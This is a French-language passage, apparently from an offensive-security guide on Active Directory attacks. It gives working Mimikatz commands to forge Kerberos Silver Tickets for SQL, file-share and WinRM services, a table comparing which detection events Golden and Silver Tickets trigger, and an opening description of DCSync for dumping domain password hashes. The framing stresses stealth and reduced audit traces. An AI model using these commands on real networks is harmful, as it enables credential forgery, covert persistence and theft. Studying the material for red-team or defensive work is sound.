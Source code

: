 **Avantages tactiques des Silver Tickets :**

Le Silver Ticket présente plusieurs avantages opérationnels distincts :

* **Furtivité maximale** : Aucune communication avec les contrôleurs de domaine
    
* **Détection complexe** : Les tickets forgés ressemblent aux authentifications légitimes
    
* **Persistance ciblée** : Maintien de l'accès jusqu'au changement des identifiants du service
    
* **Flexibilité d'utilisation** : Accès granulaire aux services spécifiques sans privilèges domaine
    

**Création de Silver Tickets avancés :**

```powershell
# Silver Ticket pour service SQL avec SPN spécifique
kerberos::golden /user:SQLAdmin /domain:corp.local /sid:S-1-5-21-xxx /target:sql.corp.local /service:MSSQLSvc /rc4:service_hash /ptt

# Silver Ticket pour partage réseau
kerberos::golden /user:FileAdmin /domain:corp.local /sid:S-1-5-21-xxx /target:fileserver.corp.local /service:cifs /aes256:service_aes256_key /ptt

# Silver Ticket pour accès WinRM
kerberos::golden /user:WinRMUser /domain:corp.local /sid:S-1-5-21-xxx /target:server.corp.local /service:HTTP /rc4:computer_hash /ptt
```

La spécification du service via le paramètre `/service` limite l'accès au service exact, réduisant les traces d'audit.

**Analyse comparative Golden vs Silver Tickets :**

| Aspect | Golden Ticket | Silver Ticket |
| --- | --- | --- |
| **Portée d'accès** | Domaine entier | Service spécifique |
| **Hash requis** | KRBTGT | Compte de service/ordinateur cible |
| **Interaction KDC** | Initiale puis autonome | Aucune |
| **Persistance** | Jusqu'à reset KRBTGT (2x) | Jusqu'au changement mot de passe service |
| **Détection** | Événements 4768/4769 visibles | Minimal - Event 4624 uniquement |
| **Privilèges accordés** | Administrateur domaine | Limités au service |
| **Complexité de mise en œuvre** | Élevée | Modérée |

## DCSync : Réplication Malveillante et Exfiltration de Données

### Architecture Technique du DCSync

DCSync représente une technique sophistiquée qui exploite les processus de réplication légitimes d'Active Directory pour exfiltrer l'intégralité de la base de données des mots de passe du domaine. Cette attaque transforme un compte privilégié compromis en contrôleur de domaine virtuel, capable de demander la réplication de données sensibles sans éveiller les soupçons.
